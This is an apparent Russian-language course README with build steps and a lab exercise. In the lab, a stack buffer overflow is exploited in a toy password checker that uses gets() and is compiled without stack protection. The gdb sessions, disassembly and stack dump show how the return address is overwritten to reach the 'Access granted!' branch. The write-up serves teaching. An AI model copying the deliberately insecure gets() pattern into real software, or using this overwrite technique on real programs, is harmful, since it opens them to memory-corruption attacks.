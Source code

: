 # Функции

## Сборка и запуск

1. Необходимо перейти в корневую директорию и выполнить команду для сборки проекта

```
make
```

2. Исполняемый файл появятся в папке ```bin```

3. Для удаления объектных и исполняемых файлов необходимо выполнить команду

```
make clean
```

## Задания

### Задание 1. Переписать абонентский справочник с использованием функций.

Справочник можно найти в [этом репозитории](https://github.com/EltexEmbeddedC/structures).

### Задание 2. Имеется программа (исходный код которой приводится в [src/main.c](https://github.com/EltexEmbeddedC/functions/blob/main/src/main.c), компилируется с ключами: -fno-stack-protector -no-pie). Необходимо произвести анализ программы с помощью отладчика для выяснения длины массива для ввода пароля и адреса ветки условия проверки корректности ввода пароля, которая выполняется при условии совпадения паролей. Ввести пароль (строку символов) таким образом, чтобы перезаписать адрес возврата на выясненный адрес (есть символы которые нельзя ввести с клавиатуры, поэтому можно использовать перенаправление ввода (<) при запуске программы).

Откроем исполняемый файл в отладчике:

```
gdb password_checker
```

```bash
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from password_checker...
```

Поставим точку остановки на функцию ```main```:

```
(gdb) b main
```

```bash
Breakpoint 1 at 0x4011a2: file src/main.c, line 10.
```

Выясним адрес ветки, в которую входит программа в случае успешной проверки пароля. Для этого запустим программу и дизассемблируем функцию ```main```:

```bash
(gdb) r
Starting program: /home/alexey/Projects/Eltex/HW/functions/bin/password_checker 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main () at src/main.c:10
10	  puts("Enter password:");
```

```
(gdb) disassemble 
Dump of assembler code for function main:
   0x0000000000401196 <+0>:	endbr64 
   0x000000000040119a <+4>:	push   %rbp
   0x000000000040119b <+5>:	mov    %rsp,%rbp
   0x000000000040119e <+8>:	sub    $0x10,%rsp
=> 0x00000000004011a2 <+12>:	lea    0xe5b(%rip),%rax        # 0x402004
   0x00000000004011a9 <+19>:	mov    %rax,%rdi
   0x00000000004011ac <+22>:	call   0x401070 <puts@plt>
   0x00000000004011b1 <+27>:	call   0x4011ee <IsPassOk>
   0x00000000004011b6 <+32>:	mov    %eax,-0x4(%rbp)
   0x00000000004011b9 <+35>:	cmpl   $0x0,-0x4(%rbp)
   0x00000000004011bd <+39>:	jne    0x4011d8 <main+66>
   0x00000000004011bf <+41>:	lea    0xe4e(%rip),%rax        # 0x402014
   0x00000000004011c6 <+48>:	mov    %rax,%rdi
   0x00000000004011c9 <+51>:	call   0x401070 <puts@plt>
   0x00000000004011ce <+56>:	mov    $0x1,%edi
   0x00000000004011d3 <+61>:	call   0x4010a0 <exit@plt>
   0x00000000004011d8 <+66>:	lea    0xe43(%rip),%rax        # 0x402022
   0x00000000004011df <+73>:	mov    %rax,%rdi
   0x00000000004011e2 <+76>:	call   0x401070 <puts@plt>
   0x00000000004011e7 <+81>:	mov    $0x0,%eax
   0x00000000004011ec <+86>:	leave  
   0x00000000004011ed <+87>:	ret    
End of assembler dump.
```

Таким образом, адрес нужной ветки ```0x00000000004011d8```. Войдем отладчиком в функцию ```IsPassOk```, при запросе пароля введем ```abc``` и выведем 32 байта стека, начиная с регистра ```$rsp```:

```c
int IsPassOk(void) {
  char Pass[12];
  gets(Pass);
  return 0 == strcmp(Pass, "test");
}
```

```bash
(gdb) x/32x $rsp
0x7fffffffde20:	0x68	0xdf	0xff	0xff	0x61	0x62	0x63	0x00
0x7fffffffde28:	0x96	0x11	0x40	0x00	0x00	0x00	0x00	0x00
0x7fffffffde30:	0x50	0xde	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffde38:	0xb6	0x11	0x40	0x00	0x00	0x00	0x00	0x00
```

Строка ```abc``` в ASCII представляется как ```\x61\x62\x63```, следовательно, массив ```Pass[12]```, который хранит пароль расположен на адресах ```0x7fffffffde24-0x7fffffffde29```. За ним следует 8 байт сохраненного ```$rbp```, а затем адрес возврата, который и нужно перезаписать:

```0x7fffffffde38:	0xb6	0x11	0x40	0x00	0x00	0x00	0x00	0x00```

Создадим строку, являющуюся конкатенацией строки из 12 байт (чтобы заполнить массив), текущего адреса сохраненного ```$rbp``` и нового адреса возврата ```0x00000000004011d8```. 

Запишем эту строку в ```password.bin``` выполнением скрипта [create_output.sh](https://github.com/EltexEmbeddedC/functions/blob/main/create_output.sh).

Теперь запустим программу, перенаправив поток ввода в ```password.bin```:

```bash
alexey@alexey-HVY-WXX9:~/Projects/Eltex/HW/functions/bin$ ./password_checker < password.bin 
Enter password:
Access granted!
```

![Результат](/result.png)

В результате чего программа выводит строку ```Access granted!```.
